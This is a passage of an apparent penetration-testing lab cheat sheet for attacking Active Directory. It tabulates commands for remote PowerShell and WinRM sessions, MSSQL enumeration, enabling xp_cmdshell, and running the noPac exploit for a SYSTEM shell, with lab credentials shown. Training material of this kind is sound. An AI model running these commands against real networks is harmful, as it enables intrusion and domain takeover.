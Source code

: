 | `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred`                                                                        | Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`). |
| `evil-winrm -i 10.129.201.234 -u forend`                                                                                                 | Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`.                                                                                                                                                                     |
| `Import-Module .\PowerUpSQL.ps1`                                                                                                         | Used to import the `PowerUpSQL` tool.                                                                                                                                                                                                                                   |
| `Get-SQLInstanceDomain`                                                                                                                  | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host.                                                                                                                                                                                       |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host.                                                                                                                               |
| `mssqlclient.py`                                                                                                                         | Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host.                                                                                                                                                     |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`                                                                      | Impacket tool used to connect to a MSSQL server from a Linux-based host.                                                                                                                                                                                                |
| `SQL> help`                                                                                                                              | Used to display mssqlclient.py options once connected to a MSSQL server.                                                                                                                                                                                                |
| `SQL> enable_xp_cmdshell`                                                                                                                | Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host.                                                                                                                                           |
| `xp_cmdshell whoami /priv`                                                                                                               | Used to enumerate rights on a system using `xp_cmdshell`.                                                                                                                                                                                                               |

## NoPac

| Command                                                                                                                                                                                       | Description                                                                                                                                                                        |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `sudo git clone https://github.com/Ridter/noPac.git`                                                                                                                                          | Used to clone a `noPac` exploit using git. Performed from a Linux-based host.                                                                                                      |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap`                                                                                                    | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host.                                                                    |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap`                                          | Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host.                                                   |